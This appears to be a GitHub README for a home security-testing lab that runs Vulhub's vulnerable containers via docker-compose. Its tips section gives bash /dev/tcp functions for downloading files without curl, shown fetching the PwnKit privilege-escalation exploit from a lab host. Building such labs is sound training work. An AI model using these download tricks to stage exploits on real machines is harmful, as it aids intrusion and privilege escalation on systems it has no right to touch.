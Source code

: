 ## Intro
This docker-compose setup allows you to easily spin up a security testing/research environment.

This was done for our presentation "Do It Yourself: Building a Security Lab At Home" in January 2021.

The main purpose is to create a separate network and containers that can be referenced by name.

This also allows you to have multiple containers listening on the same port to avoid confusing port mappings.

## Usage

Simply clone this repository and run:

``
docker-compose up -d
``

Be certain to add the following to your /etc/hosts file:

```
# Vulhub lab
10.1.1.5        shellshock
10.1.1.6        jenkins
10.1.1.7        phpmyadmin
10.1.1.8        mysql
10.1.1.9        telnetserver
10.1.1.10       kali
10.1.1.11       solr-log4j

```

Modify for your own needs! Thanks to Vulhub: https://github.com/vulhub/vulhub

## Tips

To use bash to retrieve a file via HTTP create this function (just copy and paste this into a terminal):

```
_get ()
{
  IFS=/ read proto z host query <<< "$1"
  exec 3< /dev/tcp/$host/80
  {
    echo GET /$query HTTP/1.1
    echo connection: close
    echo host: $host
    echo
  } >&3 
  sed '1,/^$/d' <&3 > $(basename $1)
}

```

For binary files:

```
__curl() {
  read proto server path <<<$(echo ${1//// })
  DOC=/${path// //}
  HOST=${server//:*}
  PORT=${server//*:}
  [[ x"${HOST}" == x"${PORT}" ]] && PORT=80

  exec 3<>/dev/tcp/${HOST}/$PORT
  echo -en "GET ${DOC} HTTP/1.0\r\nHost: ${HOST}\r\n\r\n" >&3
  (while read line; do
   [[ "$line" == $'\r' ]] && break
  done && cat) <&3
  exec 3>&-
}
```

Then you can use it like this:

```$ _get http://10.1.1.14/PwnKit```

```$ __curl http://10.1.1.14/PwnKit```
